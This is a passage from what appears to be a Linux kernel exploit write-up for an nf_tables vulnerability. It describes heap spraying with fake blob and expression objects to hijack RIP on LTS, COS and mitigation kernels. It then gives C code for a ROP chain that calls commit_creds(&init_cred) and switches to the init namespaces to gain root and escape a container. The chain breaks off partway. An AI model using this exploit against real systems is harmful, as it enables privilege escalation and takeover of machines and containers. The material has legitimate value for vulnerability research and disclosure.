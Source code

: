`chain->blob_gen_0` is used in `nft_do_chain`, and `expr->ops->eval` is called to evaluate the expression in `expr_call_ops_eval`. We set the ops of the fake expr to the leaked heap address (LTS, COS) or CPU entry area (mitigation) to control the RIP. For LTS kernel, the fake blob object with the fake expr is allocated in `kmalloc-cg-256`. I chose this size because it is large enough to store the ROP payload and is the largest size we can spray with `nft_table->udata`. For COS kernel, the fake blob object with the fake expr is allocated in `kmalloc-cg-192`. I chose this size because we're using a string type to leak the heap address, so I don't want null bytes in the heap address. `kmalloc-cg-192` is the largest size that does not include null bytes in the heap address. For mitigation kernel, we allocate the fake blob object larger than 0x2000 to use page allocator.

# Post-RIP

For LTS kernel, the ROP payload is stored in `chain->blob_gen_0` allocated in `kmalloc-cg-256` and the leaked heap address allocated in `kmalloc-cg-96`.

When `eval()` is called, `RBX` points to `kmalloc-cg-256+0x10`, which is the beginning of the `nft_expr` structure.

```c
void fake_ops_96(uint64_t* data){
    int i = 0;

    // expr->ops->eval()
    data[i++] = kbase + PUSH_RBX_POP_RSP_RBP;
}

void rop_chain_256(uint64_t* data){
    int i = 0;

    // nft_rule_blob.size > 0
    data[i++] = 0x100;
    // nft_rule_blob.dlen > 0
    data[i++] = 0x100;

    // fake ops addr
    data[i++] = kmalloc_96;

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + POP_RDI_RET
    data[i++] = getpid();
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = RCU_READ_LOCK_NESTING_OFF;
    data[i++] = kbase + ADD_RAX_RSI_RET;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + POP_RCX_RET;
    data[i++] = 0;
    data[i++] = kbase + MOV_RAX_RCX_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
```